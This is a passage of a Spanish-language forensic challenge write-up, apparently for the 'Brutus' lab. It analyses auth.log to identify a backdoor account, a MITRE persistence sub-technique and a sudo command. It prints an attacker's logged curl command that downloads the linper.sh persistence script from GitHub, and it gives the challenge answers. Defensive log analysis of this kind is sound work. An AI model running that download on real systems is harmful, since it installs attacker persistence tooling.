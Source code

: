 ![UTMP]({{ "/images/Brutus/Q5.png" | relative_url }})

```
Q5: cyberjunkie
```

#### Q6: What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Habiendo aclarado que es una forma de persistencia; podemos buscar en internet tranquilamente; [Persistence - Mitre](https://attack.mitre.org/tactics/TA0003/) Y buscar por la que más se parezca a la acción, que es crear una cuenta.

![UTMP]({{ "/images/Brutus/Q6.png" | relative_url }})

Nos pregunta por la sub técnica, que es la acción específica realizada: _¿Creó una cuenta en un servicio de nube? ¿Creó la cuenta en un dominio (AD)? ¿Creó una cuenta local? ¿Creó otro tipo de cuenta?_ Estas preguntas nos ayudarán en identificar específicamente la sub técnica utilizada (o si no corresponde a una subtécnica). Como el atacante creó la cuenta sólo en la máquina, corresponde a la 001 (recuerda que el formato es T<ID Técnica>.<ID Sub Técnica>)

```
Q6: T1136.001
``` 

#### Q7: What time did the attacker's first SSH session end according to auth.log?

Para resolver la pregunta, sólo tenemos que observar cuándo el usuario `cyberjunkie` (que sabemos es el atacante) ingresa mediante SSH:


![UTMP]({{ "/images/Brutus/Q7a.png" | relative_url }})

```
Q7: 2024-03-06 06:37:24
``` 

#### Q8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Poco más abajo del login, sin tanta complicación, podremos ver el servicio sudo generando un log y para llamar más la atención, un curl hacia github:

![UTMP]({{ "/images/Brutus/Q8.png" | relative_url }})

```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

```
Q8: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

###### Agradecimiento
